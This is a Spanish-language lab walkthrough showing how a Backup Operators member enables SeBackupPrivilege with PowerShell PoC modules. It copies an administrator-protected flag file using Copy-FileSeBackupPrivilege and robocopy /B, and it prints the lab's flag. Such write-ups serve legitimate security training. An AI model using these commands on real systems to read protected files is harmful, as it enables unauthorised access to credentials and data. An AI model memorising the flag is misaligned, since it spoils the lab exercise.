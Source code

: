 <img width="1031" height="769" alt="image" src="https://github.com/user-attachments/assets/64eb68d2-1e59-4260-b66d-39063c47e5d5" />


Confirmamos que pertenecemos al grupo `Backup Operators` por lo que deberíamos tener asignado el privilegio `SeBackupPrivilege`:

Utilizamos el comando `whoami /priv`:
<img width="981" height="597" alt="image" src="https://github.com/user-attachments/assets/88e81b5b-52f6-455a-b341-7a8c18d7e0c9" />


Vemos que tenemos deshabilitado el privilegio.



Utilizamos el PoC `SeBackupPrivilege`, buscamos los módulos a importar:

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include SeBackupPrivilegeUtils.dll | Select-Object FullName
```
```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include SeBackupPrivilegeCmdLets.dll | Select-Object FullName
```

<img width="1125" height="408" alt="image" src="https://github.com/user-attachments/assets/9a433bcf-8ce9-4d15-bebf-343b68492818" />

Ambos archivos están en la ruta `C:\Tools\`

Importamos los módulos:
```powershell
Import-Module C:\Tools\SeBackupPrivilegeUtils.dll
```
```powershell
Import-Module C:\Tools\SeBackupPrivilegeCmdLets.dll
```

Habilitamos `SeBackupPrivilege` y confirmamos:
```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

<img width="685" height="235" alt="image" src="https://github.com/user-attachments/assets/814d2407-1b91-4611-a4dd-9452562f45b8" />



Intentamos leer el archivo del laboratorio con el comando:
```powershell
cat C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt
```

<img width="982" height="239" alt="image" src="https://github.com/user-attachments/assets/93b36833-df46-49ab-b3c1-5ce8dfd4d698" />

Como era de esperar, tenemos acceso denegado.

Utilizamos la `PoC` para realizar una copia con sintaxis de backup:
```powershell
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt' .\flag.txt
```
Una vez copiado el fichero, obtenemos la flag leyendolo:
<img width="1099" height="383" alt="image" src="https://github.com/user-attachments/assets/e5ab6db4-45b7-47fb-935f-223ea9c36985" />


- `Flag`: `Car3ful_w1th_gr0up_m3mberSh1p!`


También podríamos haber usado `Robocopy`:
```powershell
robocopy /B C:\Users\Administrator\Desktop\SeBackupPrivilege\ flag2 flag2.txt
```
